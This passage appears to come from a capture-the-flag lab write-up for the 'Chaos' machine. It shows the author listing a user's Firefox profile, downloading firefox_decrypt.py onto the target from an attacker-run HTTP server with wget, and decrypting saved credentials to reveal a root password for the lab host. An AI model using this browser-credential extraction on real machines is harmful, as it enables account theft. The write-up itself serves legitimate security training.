 Inside of it, there’s a single default profile, `bzo7sjt1.default`:

```

ayush@chaos:~/.mozilla$ find . -maxdepth 2
.
./firefox
./firefox/bzo7sjt1.default
./firefox/Crash Reports
./firefox/profiles.ini
./extensions

```

### Data Extraction from Firefox Profile

I’ll grab [this Firefox extraction tool](https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py), and upload it to target with `wget`:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.120 - - [08/May/2019 15:35:53] "GET /firefox_decrypt.py HTTP/1.1" 200 -

```

```

ayush@chaos:/dev/shm$ wget 10.10.14.14/firefox_decrypt.py
--2019-05-08 19:25:33--  http://10.10.14.14/firefox_decrypt.py
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34618 (34K) [text/plain]
Saving to: ‘firefox_decrypt.py’

firefox_decrypt.py                                     100%[============================================================================================================================>]  33.81K  --.-KB/s    in 0.1s    

2019-05-08 19:25:34 (326 KB/s) - ‘firefox_decrypt.py’ saved [34618/34618]

```

When I run it, it immediately finds the profile, and prompts for a master password. Giving it the only password I know for ayush, “jiujitsu”, works:

```

ayush@chaos:/dev/shm$ python3 ff.py 

Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'

```
